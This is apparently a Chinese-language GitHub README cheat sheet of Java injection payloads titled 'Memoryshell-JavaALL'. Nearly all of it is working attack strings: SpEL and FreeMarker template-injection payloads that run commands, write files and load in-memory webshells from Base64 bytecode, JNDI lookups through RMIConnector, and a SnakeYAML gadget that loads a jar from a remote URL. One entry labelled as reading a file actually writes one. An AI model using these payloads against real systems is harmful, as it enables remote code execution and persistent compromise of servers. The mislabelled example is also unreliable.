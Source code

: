 # Memoryshell-JavaALL
我不允许你还不会用JAVA 内存马

## SPEL 

不加模板解析的payload
```
T(java.lang.Runtime).getRuntime().exec("calc")
new+java.lang.ProcessBuilder("cmd","/c","Calc").start()
```
加模板解析的payload
```
#{new java.lang.ProcessBuilder({'calc'}).start()}
```
可以回显时使用
```
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()
```
可以打入内存马高版本Spring Core 受限
```
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()}
```
使用JNDI 注入利用 在Springboot 中不适用，因为它会程序启动时初始化InitialContext
```
#{T(java.lang.System).setProperty('com.sun.jndi.ldap.object.trustURLCodebase', 'true')} 
#{new javax.management.remote.rmi.RMIConnector(new javax.management.remote.JMXServiceURL("service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc"), new java.util.Hashtable()).connect()}
```
## FreeMarker 

执行命令
```
${"freemarker.template.utility.Execute"?new()("id")}
${"freemarker.template.utility.Execute"?new()("Calc")}
<#assign value="freemarker.template.utility.Execute"?new()>${value("Calc")}
```
写文件
```
${"freemarker.template.utility.ObjectConstructor"?new()("java.io.FileWriter","/tmp/hh.txt").append("<>").close()}
```
读文件
```
${"freemarker.template.utility.ObjectConstructor"?new()(java.io.FileWriter("/tmp/hh.txt").append("ttt").close())}
```
使用SPEL利用
```
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc\")").getValue()}
```
使用SPEL 进行JNDI
```
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("new+javax.management.remote.rmi.RMIConnector(new+javax.management.remote.JMXServiceURL(\"service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc\"),new+java.util.Hashtable()).connect()").getValue()}
```
使用SPEL 加载内存马
```
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(org.springframework.cglib.core.ReflectUtils).defineClass('SpringInterceptor',T(org.springframework.util.Base64Utils).decodeFromString(\"yv66vgAAADQA5。。。\"),new+javax.management.loading.MLet(new+java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()").getValue()}
```
使用Jython 
```
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```
## YAML

ftp 可以换为HTTP 及其他支持协议
```
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["ftp://127.0.0.1:8000/yaml-payload4.jar"]]]]
```


------------------------------------------------------------------------------------
各位师傅有建议及其他Payload 带带弟弟啊
未完待续.....
